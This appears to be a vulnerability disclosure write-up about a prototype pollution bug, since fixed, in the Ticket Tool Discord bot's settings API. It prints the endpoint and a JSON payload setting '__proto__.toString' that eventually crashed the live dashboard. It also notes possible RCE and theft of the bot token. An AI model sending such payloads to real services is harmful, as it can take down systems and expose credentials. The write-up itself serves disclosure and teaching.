




# Object.prototype.toString is not callable
*Fixed on: 18/05/2025*

[Website](https://tt.bot) | [Discord](https://discord.gg/tUM9Xcv)

> Of all the vulnerabilities in this repository, this is part of the most interesting ones.

Ticket Tool is, for pretty sure, the most used ticket bot across Discord.

The bot dashboard has various functions:



Inspecting how the bot saves settings, I saw that this is sent to the API endpoint `/api/legacy/serverInfo/:server_id/saveConfigs-v2` by `POST`:

```json
{
  "changes":[
    {
      "kind": "E",
      "path": [
        "panel_configs",
        ":panel_id",
        "TwostepClose"
      ],
      "lhs": true,
      "rhs": false
    }
  ]
}
```

Hmm... the lhs and rhs means left hand side and right hand side, if you learn math you may already know what this could be used for but if not, on a equation $a = b$, the $a$ is the left hand side and $b$ is the right hand side. On this specific setting, if we try to set it again after this, the lhs and rhs will switch, so the `lhs` could be the previous value and the `rhs` the new one. The `lhs` isn't really needed as the request will still work if you remove it.

When creating an entry for some value, the request changes to this:

```json
{
  "changes":[
    {
      "kind": "A",
      "path": [
        "panel_configs",
        ":panel_id",
        "AdditionalRoles"
      ],
      "index": 0,
      "item": {
        "kind": "D",
        "lhs":":role_id"
      }
    }
  ]
}
```

This could be tought as an equivalent to `AdditionalRoles[0] = null`.

So I tought, this in the backend could be doing something like `obj[path[0]][path[1]][path2]...[path[n]]`... so what could happen if I send this?:

```json
{
  "changes":[
    {
      "kind": "E",
      "path": [
        "__proto__",
        "toString"
      ],
      "rhs": 123
    }
  ]
}
```

I tried sending it and at first glance, nothing happened. But within a few hours the server started to error out with this:



So it worked... and with this I realized that the dashboard has now a time bomb, as this error was slowly starting to appear more frequently until the dashboard completely crashed:





So with this, there is a chance that you could get RCE as the webserver user, and steal the bot token.

I had to run to the server and report the bug before something else goes wrong. Thankfully, the dev fixed the bug quickly after I reported it.


